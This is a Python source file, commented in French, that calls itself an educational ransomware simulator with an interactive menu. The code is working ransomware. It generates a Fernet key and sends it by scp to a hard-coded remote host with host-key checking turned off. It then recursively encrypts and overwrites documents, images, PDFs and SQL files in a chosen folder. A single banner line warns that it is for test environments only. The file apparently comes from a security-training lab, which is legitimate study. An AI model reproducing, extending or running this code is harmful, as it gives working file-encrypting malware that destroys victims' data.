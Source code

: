 #!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - VERSION AVEC MENU INTERACTIF (AUTH PAR CLÉ SSH)
import os
import sys
import subprocess
from cryptography.fernet import Fernet
from pathlib import Path

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
REMOTE_DIR = "/home/doranco/cle_dechiffrement"
KEY_FILE = "decryption_key.key"
SSH_KEY = "/home/doranco/.ssh/id_rsa"  # Chemin vers la clé SSH privée

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.target_exts = {'.txt', '.doc', '.docx', '.pdf', '.jpg', '.sql'}
        
    def clear_screen(self):
        """Efface l'écran du terminal"""
        os.system('cls' if os.name == 'nt' else 'clear')
    
    def show_banner(self):
        """Affiche une bannière stylisée"""
        self.clear_screen()
        print("""
██████╗  █████╗ ███╗   ██╗███████╗ ██████╗ ███╗   ███╗
██╔══██╗██╔══██╗████╗  ██║██╔════╝██╔═══██╗████╗ ████║
██████╔╝███████║██╔██╗ ██║███████╗██║   ██║██╔████╔██║
██╔══██╗██╔══██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║
██║  ██║██║  ██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝
        """)
        print("=== SIMULATEUR ÉDUCATIF - MENU PRINCIPAL ===")
        print("⚠️ À utiliser uniquement en environnement de test ⚠️\n")
        print(f"🔐 Authentification SSH par clé: {SSH_KEY}")

    def generate_key(self):
        """Génère une clé de chiffrement"""
        print("\n🔑 Génération de la clé...")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        print(f"✅ Clé générée: {self.key.decode()[:12]}...")
        return True

    def transfer_key_ssh(self):
        """Transfère la clé via SSH avec authentification par clé"""
        if not self.key:
            print("\n❌ Aucune clé générée!")
            return False

        try:
            print("\n🔄 Transfert de la clé...")
            
            # Crée un fichier temporaire
            with open(KEY_FILE, 'wb') as f:
                f.write(self.key)
            
            # Crée le répertoire distant
            subprocess.run([
                'ssh',
                '-i', SSH_KEY,
                f'{SSH_USER}@{SSH_SERVER}',
                f'mkdir -p {REMOTE_DIR}'
            ], check=True)
            
            # Copie la clé via SCP
            subprocess.run([
                'scp',
                '-i', SSH_KEY,
                '-o', 'StrictHostKeyChecking=no',
                KEY_FILE,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}'
            ], check=True)
            
            # Nettoyage
            os.remove(KEY_FILE)
            
            print(f"\n📤 Clé transférée avec succès vers :")
            print(f"   Serveur: {SSH_SERVER}")
            print(f"   Chemin: {REMOTE_DIR}/{KEY_FILE}")
            return True
            
        except subprocess.CalledProcessError as e:
            print(f"\n❌ Échec du transfert SSH: {e}")
            print("Vérifiez que:")
            print(f"1. La clé SSH {SSH_KEY} existe")
            print(f"2. La clé publique est installée sur {SSH_USER}@{SSH_SERVER}")
            print("3. Le serveur est accessible")
            return False

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            if Path(filepath).suffix.lower() not in self.target_exts:
                return False

            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            return True
        except Exception as e:
            print(f"⚠️ Erreur sur {filepath}: {e}")
            return False

    def encrypt_directory(self, path='.'):
        """Chiffre un dossier"""
        if not os.path.exists(path):
            print("\n❌ Le dossier spécifié n'existe pas!")
            return

        encrypted = errors = 0
        print(f"\n🔒 Début du chiffrement de: {path}")
        
        for root, _, files in os.walk(path):
            for file in files:
                if Path(file).suffix.lower() in self.target_exts:
                    if self.encrypt_file(os.path.join(root, file)):
                        encrypted += 1
                    else:
                        errors += 1
        
        print(f"\n✅ Chiffrement terminé!")
        print(f"   Fichiers chiffrés: {encrypted}")
        print(f"   Erreurs: {errors}")

    def show_menu(self):
        """Affiche le menu interactif"""
        while True:
            self.show_banner()
            print("Options disponibles:")
            print("1. Générer une nouvelle clé")
            print("2. Transférer la clé actuelle")
            print("3. Chiffrer un dossier")
            print("4. Tout faire (mode automatique)")
            print("0. Quitter\n")
            
            choice = input("Votre choix (0-4): ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                if self.key:
                    self.transfer_key_ssh()
                else:
                    print("\n❌ Vous devez d'abord générer une clé!")
            elif choice == "3":
                if self.key:
                    path = input("\nEntrez le chemin du dossier à chiffrer: ")
                    self.encrypt_directory(path)
                else:
                    print("\n❌ Vous devez d'abord générer une clé!")
            elif choice == "4":
                print("\n🚀 Mode automatique activé...")
                if self.generate_key():
                    if self.transfer_key_ssh():
                        path = input("\nEntrez le chemin du dossier à chiffrer: ")
                        self.encrypt_directory(path)
            elif choice == "0":
                print("\n👋 Au revoir!")
                sys.exit(0)
            else:
                print("\n❌ Option invalide!")
            
            input("\nAppuyez sur Entrée pour continuer...")

if __name__ == '__main__':
    try:
        # Vérifie que SSH est installé
        subprocess.run(['ssh', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
        
        # Vérifie l'existence de la clé SSH
        if not os.path.exists(SSH_KEY):
            print(f"\n❌ Erreur: La clé SSH {SSH_KEY} n'existe pas!")
            print("Générez-la avec: ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa")
            print(f"Puis copiez-la sur le serveur: ssh-copy-id -i {SSH_KEY}.pub {SSH_USER}@{SSH_SERVER}")
            sys.exit(1)
            
        sim = RansomwareSimulator()
        sim.show_menu()
        
    except subprocess.CalledProcessError:
        print("\n❌ Erreur: OpenSSH doit être installé")
        print("Installez-le avec: sudo apt install openssh-client")
        sys.exit(1)
    except KeyboardInterrupt:
        print("\n\n⏹️ Opération annulée par l'utilisateur")
        sys.exit(0)
    except Exception as e:
        print(f"\n❌ Erreur inattendue: {e}")
        sys.exit(1)
